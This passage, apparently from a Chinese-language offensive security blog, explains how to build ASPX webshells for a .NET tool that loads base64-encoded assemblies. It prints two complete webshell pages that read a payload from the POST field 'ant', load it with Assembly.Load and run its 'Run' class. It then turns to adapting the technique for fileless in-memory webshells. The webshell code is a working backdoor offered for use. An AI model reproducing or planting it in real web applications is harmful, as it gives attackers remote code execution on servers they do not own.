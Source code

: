 output

```cpp
Assembly.GetName: BASE_Info, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
Assembly.GetName.Name: BASE_Info
Assembly.GetType: System.Reflection.Assembly
Assembly.GetTypes[0]: BASE_Info.Run
Assembly.GetTypes[0].FullName: BASE_Info.Run
```

Assembly.GetTypes返回的是一个列表，而payload里面我们通常只会定义一个类，所以可以通过Assembly.GetTypes[0]来获取payload类的type。

webshell中可以采用如下写法。

```cpp
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetTypes()[0].FullName).Equals(Context);
    }
%>
```

这里又跟java的defineClass不太一样，defineClass只能打进去一个类，而c#的Assembly.Load可以加载一个程序集，并不一定只是一个类。所以为了考虑今后payload里可能会有多个类的情况，推荐的写法如下：

```cpp
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(Context);
    }
%>
```

即强行指定实例化的类为命名空间下名为Run的类。

## 兼容内存马

rebeyond大佬在最开始用加载assembly作为aspx类型的shell时，默认Equals里面是this对象。也就是Page对象。这种方式在aspx文件落地的情况下没有毛病，但是在内存马环境下，是没有Page对象的，这种办法也就不兼容。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640785002220-ae3b85ba-9b25-49ec-a7f8-309373607cd2.png)

微软文档如下图



![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640785105596-fd3b9c07-8cba-432f-867d-f9415f1be072.png)
